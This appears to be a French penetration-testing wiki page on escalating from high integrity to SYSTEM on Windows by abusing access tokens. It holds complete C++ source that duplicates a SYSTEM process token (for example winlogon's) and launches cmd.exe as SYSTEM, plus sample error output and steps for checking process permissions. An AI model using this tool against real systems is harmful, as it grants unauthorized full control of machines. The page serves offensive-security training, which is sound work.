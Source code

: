 # SeImpersonate de High à System

{{#include ../../banners/hacktricks-training.md}}

### Code

Le code suivant provient de [ici](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962). Il permet de **spécifier un ID de processus comme argument** et un CMD **s'exécutant en tant qu'utilisateur** du processus indiqué sera exécuté.\
En s'exécutant dans un processus à haute intégrité, vous pouvez **indiquer le PID d'un processus s'exécutant en tant que System** (comme winlogon, wininit) et exécuter un cmd.exe en tant que system.
```cpp
impersonateuser.exe 1234
```

```cpp:impersonateuser.cpp
// From https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962

#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
HANDLE hToken,          // access token handle
LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
BOOL bEnablePrivilege   // to enable or disable privilege
)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
lpszPrivilege,   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
{
printf("[-] The token does not have the specified privilege. \n");
return FALSE;
}
return TRUE;
}
std::string get_username()
{
TCHAR username[UNLEN + 1];
DWORD username_len = UNLEN + 1;
GetUserName(username, &username_len);
std::wstring username_w(username);
std::string username_s(username_w.begin(), username_w.end());
return username_s;
}
int main(int argc, char** argv) {
// Print whoami to compare to thread later
printf("[+] Current user is: %s\n", (get_username()).c_str());
// Grab PID from command line argument
char* pid_c = argv[1];
DWORD PID_TO_IMPERSONATE = atoi(pid_c);
// Initialize variables and structures
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
// Add SE debug privilege
HANDLE currentTokenHandle = NULL;
BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
{
printf("[+] SeDebugPrivilege enabled!\n");
}
// Call OpenProcess(), print return code and error code
HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
if (GetLastError() == NULL)
printf("[+] OpenProcess() success!\n");
else
{
printf("[-] OpenProcess() Return Code: %i\n", processHandle);
printf("[-] OpenProcess() Error: %i\n", GetLastError());
}
// Call OpenProcessToken(), print return code and error code
BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
if (GetLastError() == NULL)
printf("[+] OpenProcessToken() success!\n");
else
{
printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
}
// Impersonate user in a thread
BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
if (GetLastError() == NULL)
{
printf("[+] ImpersonatedLoggedOnUser() success!\n");
printf("[+] Current user is: %s\n", (get_username()).c_str());
printf("[+] Reverting thread to original user context\n");
RevertToSelf();
}
else
{
printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
}
// Call DuplicateTokenEx(), print return code and error code
BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
if (GetLastError() == NULL)
printf("[+] DuplicateTokenEx() success!\n");
else
{
printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
}
// Call CreateProcessWithTokenW(), print return code and error code
BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
if (GetLastError() == NULL)
printf("[+] Process spawned!\n");
else
{
printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
}
return 0;
}
```
### Erreur

Dans certains cas, vous pouvez essayer d'usurper l'identité de System et cela ne fonctionnera pas, affichant une sortie comme suit :
```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```
Cela signifie que même si vous exécutez à un niveau d'intégrité élevé, **vous n'avez pas suffisamment de permissions**.\
Vérifions les permissions actuelles d'Administrateur sur les processus `svchost.exe` avec **processes explorer** (ou vous pouvez également utiliser process hacker) :

1. Sélectionnez un processus de `svchost.exe`
2. Clic droit --> Propriétés
3. Dans l'onglet "Sécurité", cliquez en bas à droite sur le bouton "Permissions"
4. Cliquez sur "Avancé"
5. Sélectionnez "Administrateurs" et cliquez sur "Modifier"
6. Cliquez sur "Afficher les permissions avancées"

![](<../../images/image (437).png>)

L'image précédente contient tous les privilèges que les "Administrateurs" ont sur le processus sélectionné (comme vous pouvez le voir, dans le cas de `svchost.exe`, ils n'ont que des privilèges "Query")

Voyez les privilèges que les "Administrateurs" ont sur `winlogon.exe` :

![](<../../images/image (1102).png>)

À l'intérieur de ce processus, les "Administrateurs" peuvent "Lire la mémoire" et "Lire les permissions", ce qui permet probablement aux Administrateurs d'usurper le jeton utilisé par ce processus.

{{#include ../../banners/hacktricks-training.md}}
